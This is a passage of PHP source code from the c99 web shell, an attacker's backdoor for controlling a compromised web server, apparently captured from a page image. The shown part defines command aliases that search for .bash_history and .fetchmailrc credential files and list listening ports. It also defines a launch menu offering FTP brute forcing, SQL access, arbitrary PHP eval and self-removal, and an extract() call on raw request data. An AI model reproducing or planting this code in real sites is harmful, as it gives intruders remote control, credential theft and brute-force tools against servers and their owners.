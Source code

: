   array("find .bash_history files in current dir", "find . -type f -name .bash_history"), 
  array("find all .fetchmailrc files", "find / -type f -name .fetchmailrc"), 
  array("find .fetchmailrc files in current dir", "find . -type f -name .fetchmailrc"), 
  array("list file attributes on a Linux second extended file system", "lsattr -va"), 
  array("show opened ports", "netstat -an | grep -i listen") 
 ); 
} 
else 
{ 
 $cmdaliases = array( 
  array("-----------------------------------------------------------", "dir"), 
  array("show opened ports", "netstat -an") 
 ); 
} 
$sess_cookie = "c99shvars"; // Cookie-variable name 
$usefsbuff = TRUE; //Buffer-function 
$copy_unset = FALSE; //Remove copied files from buffer after pasting 
//Quick launch 
$quicklaunch = array( 
 array("&lt;img src=\"".$surl."act=img&img=home\" alt=\"Home\" height=\"20\" width=\"20\" border=\"0\"&gt;",$surl), 
 array("&lt;img src=\"".$surl."act=img&img=back\" alt=\"Back\" height=\"20\" width=\"20\" border=\"0\"&gt;","#\" onclick=\"history.back(1)"), 
 array("&lt;img src=\"".$surl."act=img&img=forward\" alt=\"Forward\" height=\"20\" width=\"20\" border=\"0\"&gt;","#\" onclick=\"history.go(1)"), 
 array("&lt;img src=\"".$surl."act=img&img=up\" alt=\"UPDIR\" height=\"20\" width=\"20\" border=\"0\"&gt;",$surl."act=ls&d=%upd&sort=%sort"), 
 array("&lt;img src=\"".$surl."act=img&img=refresh\" alt=\"Refresh\" height=\"20\" width=\"17\" border=\"0\"&gt;",""), 
 array("&lt;img src=\"".$surl."act=img&img=search\" alt=\"Search\" height=\"20\" width=\"20\" border=\"0\"&gt;",$surl."act=search&d=%d"), 
 array("&lt;img src=\"".$surl."act=img&img=buffer\" alt=\"Buffer\" height=\"20\" width=\"20\" border=\"0\"&gt;",$surl."act=fsbuff&d=%d"), 
 array("&lt;b&gt;Encoder&lt;/b&gt;",$surl."act=encoder&d=%d"), 
 array("&lt;b&gt;Tools&lt;/b&gt;",$surl."act=tools&d=%d"), 
 array("&lt;b&gt;Proc.&lt;/b&gt;",$surl."act=processes&d=%d"), 
 array("&lt;b&gt;FTP brute&lt;/b&gt;",$surl."act=ftpquickbrute&d=%d"), 
 array("&lt;b&gt;Sec.&lt;/b&gt;",$surl."act=security&d=%d"), 
 array("&lt;b&gt;SQL&lt;/b&gt;",$surl."act=sql&d=%d"), 
 array("&lt;b&gt;PHP-code&lt;/b&gt;",$surl."act=eval&d=%d"), 
 array("&lt;b&gt;Update&lt;/b&gt;",$surl."act=update&d=%d"), 
 array("&lt;b&gt;Feedback&lt;/b&gt;",$surl."act=feedback&d=%d"), 
 array("&lt;b&gt;Self remove&lt;/b&gt;",$surl."act=selfremove"), 
 array("&lt;b&gt;Logout&lt;/b&gt;","#\" onclick=\"if (confirm('Are you sure?')) window.close()") 
); 
//Highlight-code colors 
$highlight_background = "#c0c0c0"; 
$highlight_bg = "#FFFFFF"; 
$highlight_comment = "#6A6A6A"; 
$highlight_default = "#0000BB"; 
$highlight_html = "#1300FF"; 
$highlight_keyword = "#007700"; 
$highlight_string = "#000000"; 
@$f = $_REQUEST["f"]; 
@extract($_REQUEST["c99shcook"]); 
//END CONFIGURATION 
// \/Next code isn't for editing\/ 
@set_time_limit(0); 
$tmp = array(); 
foreach($host_allow as $k=&gt;$v) {$tmp[] = str_replace("\\*",".*",preg_quote($v));} 
$s = "!^(".implode("|",$tmp).")$!i"; 
if (!preg_match($s,getenv("REMOTE_ADDR")) and !preg_match($s,gethostbyaddr(getenv("REMOTE_ADDR")))) {exit("&lt;a href=\"http://ccteam.ru/releases/cc99shell\"&gt;c102shell&lt;/a&gt;: Access Denied - your host (".getenv("REMOTE_ADDR").") not allow");} 